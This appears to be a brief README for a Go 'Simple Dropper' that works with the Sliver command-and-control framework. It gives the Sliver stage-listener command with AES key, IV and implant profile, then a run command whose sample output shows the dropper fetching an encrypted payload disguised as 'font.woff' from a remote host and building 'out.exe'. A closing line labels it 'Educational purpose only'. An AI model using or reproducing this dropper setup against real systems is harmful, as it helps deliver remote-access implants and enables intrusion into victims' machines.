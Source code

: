 ## Simple Dropper

Have your sliver's http(s) stage-listener ready like this:
```
sliver> stage-listener -u https://example.com:443 --aes-encrypt-key <key> --aes-encrypt-iv <iv> -p <your implant profile>
```

Run this project with the url and aes key
```
go run . -u https://example.com -k <key>

[+] Request: https://example.com/font.woff
[+] AES Key: <key>
[+] Binary : out/out.exe

```

> Educational purpose only
